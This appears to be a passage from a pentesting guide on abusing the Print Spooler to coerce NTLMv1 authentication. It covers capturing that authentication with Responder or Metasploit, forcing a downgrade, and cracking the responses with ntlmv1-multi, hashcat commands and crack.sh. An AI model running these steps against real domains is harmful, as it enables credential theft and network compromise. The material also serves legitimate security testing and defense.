 ### NTLMv1 attack

Nowadays is becoming less common to find environments with Unconstrained Delegation configured, but this doesn't mean you can't **abuse a Print Spooler service** configured.

You could abuse some credentials/sessions you already have on the AD to **ask the printer to authenticate** against some **host under your control**. Then, using `metasploit auxiliary/server/capture/smb` or `responder` you can **set the authentication challenge to 1122334455667788**, capture the authentication attempt, and if it was done using **NTLMv1** you will be able to **crack it**.\
If you are using `responder` you could try to \*\*use the flag `--lm` \*\* to try to **downgrade** the **authentication**.\
_Note that for this technique the authentication must be performed using NTLMv1 (NTLMv2 is not valid)._

Remember that the printer will use the computer account during the authentication, and computer accounts use **long and random passwords** that you **probably won't be able to crack** using common **dictionaries**. But the **NTLMv1** authentication **uses DES** ([more info here](./#ntlmv1-challenge)), so using some services specially dedicated to cracking DES you will be able to crack it (you could use [https://crack.sh/](https://crack.sh) for example).

### NTLMv1 attack with hashcat

NTLMv1 can also be broken with the NTLMv1 Multi Tool [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) which formats NTLMv1 messages im a method that can be broken with hashcat.

The command
```
python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```
would output the below:

```
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
```
